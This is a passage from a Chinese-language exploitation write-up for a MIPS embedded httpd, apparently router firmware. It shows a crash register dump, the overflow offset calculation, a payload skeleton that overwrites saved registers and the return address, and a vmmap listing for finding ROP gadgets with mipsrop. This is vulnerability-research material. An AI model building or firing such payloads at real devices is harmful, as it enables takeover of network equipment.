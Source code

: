 ![](http://static.zybuluo.com/H4l0/hhqhr7osmb3zrcm6rcv6dgav/image.png)

## 0x04 漏洞利用

### 使用 mipsrop 插件查找 ROP

崩溃之后，查看上下文环境，查看 pc 寄存器的值确定偏移：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200413110250233.png)

```

$t6 : 0x61636661 ("afca"?)   (a*218+t6)
$t7 : 0x0
$s0 : 0x61616261 ("abaa"?)，实际上是大端，应该是aaba（a*2+s0）
$s1 : 0x61616361 ("acaa"?) (a*6+s1)
$s2 : 0x61616461 ("adaa"?)
$s3 : 0x5
$s4 : 0x0
$s5 : 0x7
$s6 : 0x0
$s7 : 0x0064d6bc → 0x0064e7f4 → 0x000a0003
$t8 : 0x2
$t9 : 0x77faf980 → 0x3c1c0002
$k0 : 0x0
$k1 : 0x0
$s8 : 0x7d7fedf8 → "abwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaac[...]"
$pc : 0x61616561 ("aeaa"?)
$sp : 0x7d7fed50 → "aafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaa[...]"
$hi : 0x36c67
$lo : 0x6338ceeb
$fir : 0x739300
$ra : 0x61616561 ("aeaa"?)
$gp : 0x00594d80 → 0x00000000
```
计算得出偏移：

```c
sp的偏移为 "/%0A"*0x55+ "a"*2+"aaaa"*4

payload="/%0A"*0x55+“a”*2
payload+=s0
payload+=s1
payload+=s2
payload+=pc,ra
```

```bash
gef➤ vmmap
[ Legend: Code | Heap | Stack ]
Start End Offset Perm Path
0x00400000 0x00561000 0x00000000 r-x /usr/bin/httpd
0x00571000 0x00590000 0x00161000 rw- /usr/bin/httpd
0x00590000 0x0066e000 0x00000000 rwx [heap]
0x77e05000 0x77e46000 0x00000000 rw-
0x77e46000 0x77ea3000 0x00000000 r-x /lib/libuClibc-0.9.30.so
0x77ea3000 0x77eb2000 0x00000000 ---
0x77eb2000 0x77eb3000 0x0005c000 r-- /lib/libuClibc-0.9.30.so
0x77eb3000 0x77eb4000 0x0005d000 rw- /lib/libuClibc-0.9.30.so
0x77eb4000 0x77eb9000 0x00000000 rw-
0x77eb9000 0x77ee3000 0x00000000 r-x /lib/libgcc_s.so.1
0x77ee3000 0x77ef3000 0x00000000 ---
0x77ef3000 0x77ef4000 0x0002a000 rw- /lib/libgcc_s.so.1
0x77ef4000 0x77ef6000 0x00000000 r-x /lib/libwpa_ctrl.so
0x77ef6000 0x77f05000 0x00000000 ---
```
